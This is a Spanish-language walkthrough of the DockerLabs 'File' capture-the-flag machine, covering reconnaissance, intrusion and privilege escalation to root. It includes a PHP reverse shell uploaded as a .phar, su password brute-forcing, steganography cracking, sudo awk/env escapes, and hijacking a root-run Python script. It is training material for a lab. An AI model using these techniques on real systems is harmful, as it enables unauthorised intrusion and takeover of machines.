

Hoy realizamos la máquina "File" de [DockerLabs](https://dockerlabs.es)

Autor: [Scuffito y Jul3n-dot](https://github.com/jul3n-dot)

Dificultad: Fácil



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Dec  6 09:14:35 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-12-06 09:14:36 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 65534    65534          33 Sep 12 21:50 anon.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec  6 09:14:44 2024 -- 1 IP address (1 host up) scanned in 9.22 seconds
```

Como vemos tenemos 2 puertos:

`21: vsftpd 3.0.5 (No vulnerable)`

`80: Apache httpd 2.4.41`

Viendo las opciones, pasaremos directamente a hacer fuzzing con `gobuster`:

```css
gobuster dir -u "http://172.17.0.2" -w directory-list-2.3-big.txt -x php
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/file_upload.php      (Status: 200) [Size: 468]
Progress: 732621 / 2547666 (28.76%)
===============================================================
Finished
===============================================================
```

# Intrusión

Viendo que podemos posiblemente podemos subir archivos en "file_upload.php", crearemos una shell en php, solo que con extension `phar`:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

Una vez creado, escuchamos en el puerto 443 con netcat (`sudo nc -nlvp 443`) y luego lo subimos, vamos a donde está la shell (/uploads/shell.phar) y entramos, una vez lo hagamos estaremos dentro como www-data.

# Escalada de privilegios

### www-data

Ahora para escalar, necesitaremos de un script que nos permite hacer [fuerza bruta a varios usuarios al mismo tiempo](https://github.com/Maciferna/multi-Su_Force), y usamos la wordlist de rockyou. Una vez hecho habremos obtenido la contraseña de el usuario fernando

### Fernando

Si vamos al home de fernando, veremos una foto, esta nos la pasamos a nuestra maquina e intentamos obtener una contraseña para extraer lo que tiene un su interior con `steghide`. Para esto primero debemos buscar su contraseña:

```
stegseek --crack dragon-medieval.jpeg /opt/rockyou.txt 
```

Una vez lo hagamos, nos dirá que dentro tiene un archivo llamado "pass.txt" y que la contraseña para extraerlo es "secret". Este nos deja un archivo llamado igual que la imagen pero con un .out al final, lo leemos y nos da un hash, el cual al crackearlo en [CrackStation](https://crackstation.net) nos dará la contraseña del usuario "mario".


### Mario

Siendo mario, podemos ejecutar el binario `awk` como el usuario "julen", por lo que luego de buscar en gtfobins veo que se puede escalar de la siguiente manera:

```css
sudo -u julen awk 'BEGIN {system("/bin/bash")}'
```

### Julen

Ahora si ejecutamos `sudo -l`, vemos que nuevamente podemos ejecutar algo como otro usuario, y en este caso es el binario `env` como el usuario "iker". Por lo que para escalar ejecutamos `sudo -u iker env bash`.

### Iker

Si ejecutamos `sudo -l`, veremos que podemos ejecutar un script de python como root. Este script se encuentra en la home de iker, por lo que significa que aunque el archivo pertenezca a root y no tengamos permiso de escritura, podemos borrarlo igualmente. Sabiendo esto, lo borramos y creamos otro con el mismo nombre solo que con el siguiente contenido:

```python
import os

os.system("/bin/bash")
```

Una vez todo listo, ejecutamos `sudo python3 /home/iker/geo_ip.py ` y ya seremos root.

## Root


Gracias por leer :)